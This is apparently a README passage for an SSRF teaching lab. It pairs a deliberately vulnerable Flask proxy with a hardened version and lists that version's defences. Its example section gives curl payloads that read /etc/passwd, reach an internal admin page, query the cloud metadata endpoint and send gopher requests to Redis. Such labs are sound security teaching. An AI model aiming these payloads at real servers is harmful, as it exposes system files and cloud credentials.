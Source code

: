 ### Run Vulnerable App
```bash
python vulnerable_app.py
```
Access: http://localhost:5000

### Example Exploits
```bash
# Local file reading
curl "http://localhost:5000/vulnerable-proxy?url=file:///etc/passwd"

# Internal service access
curl "http://localhost:5000/vulnerable-proxy?url=http://localhost:80/admin"

# Cloud metadata
curl "http://localhost:5000/vulnerable-proxy?url=http://169.254.169.254/latest/meta-data/"

# Gopher protocol attack
curl "http://localhost:5000/vulnerable-proxy?url=gopher://127.0.0.1:6379/_INFO"
```

## 🛡️ Secure Application (`secure_app.py`)

### Security Features
- **Protocol Whitelisting** - Only HTTP/HTTPS allowed
- **Private IP Blocking** - RFC 1918, loopback, link-local ranges
- **Domain Allow Lists** - Configurable trusted domains
- **Port Restrictions** - Only common web ports permitted
- **DNS Rebinding Protection** - Blocks bypass attempts
- **Input Validation** - Comprehensive URL parsing
- **Request Limits** - Timeouts, size limits, redirect controls

### Run Secure App
```bash
python secure_app.py
```
Access: http://localhost:5000

### Security Endpoints
```bash
# Test URL validation
curl "http://localhost:5000/validate-url?url=https://httpbin.org/json"
```

## 🏠 Internal Dashboard (`localhashboard.py`)

### Purpose
Simulates an internal admin dashboard that should not be publicly accessible.

### Run Dashboard
```bash
# Requires admin privileges for port 80
sudo python localhashboard.py  # Linux/Mac
python localhashboard.py       # Windows (as Admin)
```
Access: http://localhost:80
